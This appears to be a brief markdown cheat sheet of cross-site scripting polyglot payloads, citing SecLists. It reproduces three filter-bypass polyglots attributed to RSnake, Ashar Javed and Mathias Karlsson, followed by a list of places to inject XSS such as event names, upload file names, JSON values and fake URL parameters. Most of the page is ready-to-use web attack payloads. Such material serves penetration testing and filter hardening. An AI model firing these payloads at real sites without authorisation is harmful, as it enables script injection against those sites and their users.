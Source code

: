 See https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/Polyglots/XSS-Polyglots.txt

Multi-context, filter bypass based polyglot payload #1 (Rsnake XSS Cheat Sheet)
```
';alert(String.fromCharCode(88,83,83))//';alert(String. fromCharCode(88,83,83))//";alert(String.fromCharCode (88,83,83))//";alert(String.fromCharCode(88,83,83))//-- ></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83)) </SCRIPT>
```

Multi-context, filter bypass based polyglot payload #2 (Ashar Javed XSS Research)
```
">><marquee><img src=x onerror=confirm(1)></marquee>" ></plaintext\></|\><plaintext/onmouseover=prompt(1) ><script>prompt(1)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>'-->" ></script><script>alert(1)</script>"><img/id="confirm&lpar; 1)"/alt="/"src="/"onerror=eval(id&%23x29;>'"><img src="http: //i.imgur.com/P8mL8.jpg"> 
```

Multi-context polyglot payload (Mathias Karlsson)
```
" onclick=alert(1)//<button ‘ onclick=alert(1)//> */ alert(1)//
```

# Probably temp stuff
Input Vectors for XSS:
- Customizable Themes & Profiles via CSS
- Event or meeting names
- URI based
- Imported from a 3rd party (think Facebook integration)
- JSON POST Values (check returning content type)
- File Upload names
- Uploaded files (swf, HTML, ++)
- Custom Error pages
- fake params - ?realparam=1&foo=bar’+alert(/XSS/)+’
- Login and Forgot password forms
